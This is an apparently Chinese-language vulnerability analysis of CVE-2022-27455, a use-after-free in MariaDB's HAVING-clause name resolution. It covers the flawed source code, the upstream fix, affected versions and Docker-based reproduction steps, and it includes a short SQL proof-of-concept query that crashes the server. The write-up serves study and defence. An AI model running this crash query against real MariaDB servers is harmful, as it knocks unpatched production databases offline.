



# CVE-2022-27455 CWE-416 MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-416（Use After Free）：**指在软件中使用已经释放的内存区域的漏洞。当程序动态分配的内存被释放后，若未将指向该内存的指针设置为无效状态（如置为 NULL），后续代码仍可能错误地访问该指针，此时该内存可能已被重新分配给其他用途，导致不可预测的行为，如数据损坏、程序崩溃或代码执行等。这种漏洞通常源于内存管理不当，是严重的安全问题，易被攻击者利用来破坏程序的稳定性和安全性。

## 漏洞原理

该漏洞源于 MariaDB 在解析子查询中 HAVING 子句时，错误地允许引用外层 SELECT 列表中的字段别名。由于未正确关闭字段解析中的作用域控制标志，导致字段绑定时将子查询中的字段错误地绑定到外层已释放的内存结构上，最终在 `my_wildcmp_8bit_impl`使用这段无效内存进行字符串比较时触发 Use-After-Free，导致数据库服务崩溃。

## 漏洞定位

分析 MariaDB 10.6.3 源码：

在 sql\sql_base.cc 文件，第 8394 行`sql\sql_base.cc`函数负责解析和绑定 WHERE 和 ON 子句中的条件表达式。

其中第 8413 行代码只保存并关闭了 `is_item_list_lookup`，但并**没有关闭**允许解析器在字段解析阶段从 SELECT 列表中解析别名字段（如外层别名）。当进入 `fix_fields()` 阶段，系统会尝试在外层 SELECT 的字段中查找当前作用域无法解析的字段，但是当外层查询的上下文环境发生变化导致这块内存被释放后，内层子句若再次使用这个引用，就会触发“释放后使用”（Use-After-Free）。

```cpp
// sql_base.cc 文件，第 8394 行
int setup_conds(THD *thd, TABLE_LIST *tables, List<TABLE_LIST> &leaves,
                COND **conds)
{
  SELECT_LEX *select_lex= thd->lex->current_select;
  TABLE_LIST *table= NULL;	// For HP compilers

  bool it_is_update= (select_lex == thd->lex->first_select_lex()) &&
    thd->lex->which_check_option_applicable();
  bool save_is_item_list_lookup= select_lex->is_item_list_lookup;
  TABLE_LIST *derived= select_lex->master_unit()->derived;
  DBUG_ENTER("setup_conds");

    // 8413 行
  select_lex->is_item_list_lookup= 0;

  thd->column_usage= MARK_COLUMNS_READ;
  DBUG_PRINT("info", ("thd->column_usage: %d", thd->column_usage));
  select_lex->cond_count= 0;
  select_lex->between_count= 0;
  select_lex->max_equal_elems= 0;

  for (table= tables; table; table= table->next_local)
  {
    if (select_lex == thd->lex->first_select_lex() &&
        select_lex->first_cond_optimization &&
        table->merged_for_insert &&
        table->prepare_where(thd, conds, FALSE))
      goto err_no_arena;
  }

  if (*conds)
  {
    thd->where="where clause";
    DBUG_EXECUTE("where",
                 print_where(*conds,
                             "WHERE in setup_conds",
                             QT_ORDINARY););

    if ((*conds)->type() == Item::FIELD_ITEM && !derived)
      wrap_ident(thd, conds);
    (*conds)->mark_as_condition_AND_part(NO_JOIN_NEST);
    if ((*conds)->fix_fields_if_needed_for_bool(thd, conds))
      goto err_no_arena;
  }

  if (setup_on_expr(thd, tables, it_is_update))
    goto err_no_arena;

  if (!thd->stmt_arena->is_conventional())
  {
    select_lex->where= *conds;
  }
  thd->lex->current_select->is_item_list_lookup= save_is_item_list_lookup;
  DBUG_RETURN(MY_TEST(thd->is_error()));

err_no_arena:
  select_lex->is_item_list_lookup= save_is_item_list_lookup;
  DBUG_RETURN(1);
}
```

## 漏洞修复


添加了新的 `select_lex->context.resolve_in_select_list` 布尔标志，该标志控制名称解析器是否应搜索外部查询的 `SELECT` 列表。修复代码**在进入 `setup_conds` 函数时显式将此标志设置为 `false`**。这意味着在处理 `WHERE` 条件的整个过程中，解析器被“暂时阻止”查看外部查询的 `SELECT` 列表。然后在函数结束时恢复。

```cpp
int setup_conds(THD *thd, TABLE_LIST *tables, List<TABLE_LIST> &leaves,
                COND **conds)
{
  // ...
  // 保存原始状态
  bool save_resolve_in_select_list= select_lex->context.resolve_in_select_list;
  DBUG_ENTER("setup_conds");
  // 第 8413 行
  select_lex->is_item_list_lookup= 0;
  // 禁止在处理条件表达式时解析 SELECT 列表中的名称
  select_lex->context.resolve_in_select_list= false;

  // ...
  thd->lex->current_select->is_item_list_lookup= save_is_item_list_lookup;
  // 恢复原始状态
  select_lex->context.resolve_in_select_list= save_resolve_in_select_list;
  DBUG_RETURN(MY_TEST(thd->is_error()));
    
err_no_arena:
  select_lex->is_item_list_lookup= save_is_item_list_lookup;
  select_lex->context.resolve_in_select_list= save_resolve_in_select_list;
  DBUG_RETURN(1);
}
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**崩溃栈中的触发函数：** `my_wildcmp_8bit_impl`

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27455-PoC.sql 。

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27455-PoC.sql，在 Debug 模式下的 MariaDB 中可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27455-PoC.sql
```



4、查看容 MariaDB 崩溃日志，可以看到 UAF 发生导致崩溃，且问题在`/strings/ctype-simple.c`的组件`my_wildcmp_8bit_impl`中，与漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE t1 (a TEXT(60) NOT NULL);
INSERT INTO t1 VALUES ('1'), ('0');

SELECT DISTINCT * FROM t1 
WHERE "" IN (
    SELECT 'x' LIKE a 
    HAVING a LIKE a
);
```

解析器进入 `WHERE '' IN (...)` 部分，并开始处理括号内的子查询：`SELECT 'x' LIKE a HAVING a LIKE a`。这个子查询本身没有 `FROM` 子句，所以它里面的列 `a` 无法从自己的 `FROM` 子句中找到。由于 `setup_conds` 函数的逻辑缺陷，名称解析器被允许去查找外层查询的上下文。

最后解析器成功地在**外层查询**的上下文中找到了 `t1.a`。于是，它将子查询中所有无法解析的 `a` 都**绑定**到了代表 `t1.a` 的那个内存对象（`Item_field`）上。即子查询的 `HAVING` 子句**直接引用**了属于外层查询的一个内存对象。

当 MariaDB 完成了对子查询某一部分的解析或准备工作后，它可能会认为外层查询的某些资源（比如为 `t1.a` 准备的临时对象）已经可以被清理或重置了。这个清理动作会**释放**在第1步中为 `t1.a` 创建的那个内存对象。但是，子查询中的 `HAVING` 子句（`a LIKE a`）**仍然持有指向那块已被释放内存的指针**。它并不知道自己引用的“外部对象”已经失效了。在后续执行中访问的是一块**已经被释放的内存**。

## 参考链接


[NVD - CVE-2022-27455](https://nvd.nist.gov/vuln/detail/CVE-2022-27455)

[[MDEV-28097\] use-after-free when WHERE has subquery with an outer reference in HAVING - Jira](https://jira.mariadb.org/browse/MDEV-28097)

[MDEV-28097 use-after-free when WHERE has subquery with an outer refer… · MariaDB/server@0beed9b](https://github.com/MariaDB/server/commit/0beed9b5e933f0ff79b3bb346524f7a451d14e38)
